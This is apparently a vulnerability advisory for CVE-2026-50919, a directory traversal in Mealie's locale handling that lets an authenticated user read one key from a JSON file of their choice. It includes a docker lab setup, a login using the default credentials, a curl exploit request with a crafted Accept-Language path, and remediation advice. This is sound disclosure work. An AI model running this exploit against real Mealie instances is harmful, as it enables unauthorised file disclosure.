


[CVE ID]

CVE-2026-50919

[PRODUCT]

mealie-recipes/mealie

[VERSION]

commit 15d56c42f7e9e4d1c866cde8b993f56f67add91a (upstream HEAD, 2026-03-02)

[PROBLEM TYPE]

Directory Traversal (CWE-22) leading to Authenticated Restricted Arbitrary JSON File Read

# Description

The logout endpoint [`POST /api/auth/logout`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/routes/auth/auth.py#L151-L159) in `mealie/routes/auth/auth.py` builds its response message from the client-controlled `Accept-Language` header. The handler passes that header to [`get_locale_provider()`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/lang/providers.py#L43-L46) in `mealie/lang/providers.py`, which forwards the value verbatim as the locale string to `ProviderFactory.get()`. In `mealie/pkgs/i18n/provider_factory.py`, [`_load()`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/pkgs/i18n/provider_factory.py#L30-L34) formats the locale as `"{locale}.json"` and joins it onto the translations directory (`TRANSLATIONS = <package>/lang/messages`, defined at [`providers.py L12-L13`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/lang/providers.py#L12-L13) and wired into the factory at L36-L40) with `pathlib`:

```python
def _load(self, locale: str) -> JsonProvider:
    filename = self.filename_format.format(locale=locale, format="json")
    path = self.directory / filename

    return JsonProvider(path) if path.exists() else JsonProvider(self.fallback_file)
```

Because `pathlib` does not sanitize the right operand, supplying an absolute path discards the base directory entirely. An `Accept-Language` value of `/tmp/x` causes the server to read `/tmp/x.json` outside the intended translations directory, with no allowlist or containment check at this commit. [`JsonProvider.__init__`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/pkgs/i18n/json_provider.py#L11-L13) in `mealie/pkgs/i18n/json_provider.py` loads the file with `json.loads(path.read_text())`, and the logout handler returns [`translator.t("notifications.logged-out")`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/routes/auth/auth.py#L159), which is the value at that key in the attacker-selected document. The disclosure is restricted to that single key value. Every controller receives the same unvalidated locale through the shared translator at [`mealie/routes/_base/base_controllers.py L34`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/routes/_base/base_controllers.py#L34), so other endpoints that return translated keys are also reachable surfaces, and `POST /api/auth/logout` is the verified leak channel. The route requires authentication and rejects an unauthenticated replay with HTTP 401.

# Proof of Concept

## victim setup

Build the image from the pinned commit and start the official compose stack with an override that maps the reproduction port:

```bash
git clone https://github.com/mealie-recipes/mealie.git && cd mealie
git checkout 15d56c42f7e9e4d1c866cde8b993f56f67add91a

cat > docker/docker-compose.scdd.override.yml <<'YAML'
services:
  mealie:
    container_name: mealie-scdd-50919
    image: mealie:scdd-50919
    ports: !override
      - "34789:9000"
YAML

docker compose -p scdd_50919 -f docker/docker-compose.yml -f docker/docker-compose.scdd.override.yml up -d --build
curl -sS -o /dev/null -w '%{http_code}\n' http://127.0.0.1:34789/api/app/about   # -> 200
```

Because the read primitive selects an existing file on disk without controlling its contents, place a known-content JSON target inside the container during setup using `docker exec`. This write is part of environment preparation and is not part of the attack. The file stores the marker under `notifications.logged-out`, which the endpoint echoes, along with a second field under `extra.not-leaked` that must remain hidden. Then authenticate with the default first-login credentials to obtain a 185-character JWT (`sub=2de938d8-a11b-4c26-9bae-3ea5d3e6b1b8`):

```bash
docker exec mealie-scdd-50919 sh -c 'printf "%s\n" "{\"notifications\": {\"logged-out\": \"CVE50919_MARKER_1793955991\"}, \"extra\": {\"not-leaked\": \"CVE50919_SHOULD_NOT_LEAK\"}}" > /tmp/scdd_mealie_locale_1793955991.json'
docker exec mealie-scdd-50919 ls -la /tmp/scdd_mealie_locale_1793955991.json    # 117 bytes, marker on disk

TOKEN="$(curl -sS -X POST http://127.0.0.1:34789/api/auth/token \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'username=changeme@example.com' --data-urlencode 'password=MyPassword' \
  | python3 -c 'import json,sys; print(json.load(sys.stdin)["access_token"])')"
```



## attack steps

1. Send the logout request with an absolute-path `Accept-Language` locale, omitting the `.json` suffix because the server appends it. The request is sent here through the HackBar extension, which is equivalent to:

	```bash
	curl -sS -X POST http://127.0.0.1:34789/api/auth/logout \
	  -H "Authorization: Bearer $TOKEN" -H 'Accept: application/json' \
	  -H 'Accept-Language: /tmp/scdd_mealie_locale_1793955991' \
	  -w '\nHTTP_STATUS=%{http_code}\n'
	```

	The server returns `HTTP/1.1 200 OK` (`Server: uvicorn`, `Content-Length: 40`) with body `{"message":"CVE50919_MARKER_1793955991"}`:

	

2. Compare the response against normal behavior. The returned string matches the `notifications.logged-out` value from the file placed during setup, confirming that the server read the attacker-specified absolute path and returned that key's value. A normal request with `Accept-Language: en-US` returns `{"message":"Logged out"}`, and pointing the header at a nonexistent path falls back to the same `{"message":"Logged out"}` message, so the marker can only come from the attacker-chosen file. The read is also restricted to that key because the second field in the same file (`"extra": {"not-leaked": "CVE50919_SHOULD_NOT_LEAK"}`) does not appear anywhere in the 40-byte response. Sending the same request without the `Authorization` header returns `{"detail":"Could not validate credentials"}` with HTTP 401, confirming the authenticated boundary.

# Impact

An authenticated user can make the server read an arbitrary pre-existing JSON file and disclose one key's value from it:

- Arbitrary file selection: the unvalidated join accepts absolute paths (demonstrated; the server appends `.json`) and `..` traversal out of the translations directory.
- Disclosure is restricted to the value at key `notifications.logged-out` of the parsed document (the second field in the same file was not returned), making this an information-disclosure oracle rather than full-file exfiltration or code execution.
- Fresh instances seed default first-login credentials (`changeme@example.com` / `MyPassword`), so the required Bearer token is trivially obtainable.
- The same unvalidated locale feeds every controller's shared translator (`base_controllers.py` L34); logout is the verified leak channel and other translated-key endpoints are equally reachable.

# Occurrences

- [`mealie/routes/auth/auth.py L151-L159`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/routes/auth/auth.py#L151-L159) — leak endpoint: `logout` handler passes `accept_language` to the locale provider and echoes `translator.t("notifications.logged-out")` at L159
- [`mealie/lang/providers.py L43-L46`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/lang/providers.py#L43-L46) — source: `Accept-Language` header accepted verbatim as the locale string, no validation
- [`mealie/pkgs/i18n/provider_factory.py L30-L34`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/pkgs/i18n/provider_factory.py#L30-L34) — vulnerable join `path = self.directory / "{locale}.json"`, no allowlist or containment check; falls back to `en-US` when the path does not exist
- [`mealie/pkgs/i18n/json_provider.py L11-L13`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/pkgs/i18n/json_provider.py#L11-L13) — sink: `json.loads(path.read_text())` reads the resolved path
- [`mealie/routes/_base/base_controllers.py L34`](https://github.com/mealie-recipes/mealie/blob/15d56c42f7e9e4d1c866cde8b993f56f67add91a/mealie/routes/_base/base_controllers.py#L34) — shared translator wiring (`Depends(get_locale_provider)`) making every controller a reachable surface

# Remediation

Recommended fixes:

- Validate the `Accept-Language` value against the supported-locale allowlist (`ProviderFactory.supported_locales` or `LOCALE_CONFIG`) before using it as a locale, rejecting any value containing path separators or `..` segments.
- Construct the translation-file path from the validated locale and verify it resolves inside the translations directory before reading.
